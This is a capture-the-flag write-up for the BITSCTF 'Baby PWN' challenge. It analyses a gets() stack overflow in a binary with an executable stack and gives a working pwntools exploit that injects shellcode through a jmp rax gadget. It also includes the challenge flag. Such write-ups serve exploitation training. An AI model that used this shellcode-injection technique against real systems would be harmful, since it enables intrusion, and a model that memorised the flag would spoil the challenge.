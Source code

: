 https://ctftime.org/event/2607

# Baby PWN (pwn)

I hope you are having a nice day.

nc chals.bitskrieg.in 6001

## Analysis

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX unknown - GNU_STACK missing
PIE:      No PIE (0x400000)
Stack:    Executable
RWX:      Has RWX segments
```

`vuln` @ `0x401136`:
  - Calls `gets` with a buffer that is offset 0x78 bytes from the return address
  - Note that after a call to `gets` the `rax` register contains a pointer to the buffer that was passed to `gets`

## Solution

1) Write shellcode to the executable stack
2) Stomp the return address with a `jmp rax` gadget so that we pivot to the shellcode we just wrote to the stack
3) Read the flag with `/bin/cat`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./main", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chals.bitskrieg.in", 6001)

JMP_RAX = 0x4010ac # : jmp rax

payload = asm(shellcraft.sh()).ljust(0x78, b"A")
payload += p64(JMP_RAX)
p.sendline(payload)

p.sendline(b"/bin/cat flag.txt")

# BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}
print(p.readuntil(b"}").decode())
```

## Flag
`BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}`

smiley 2025/02/07
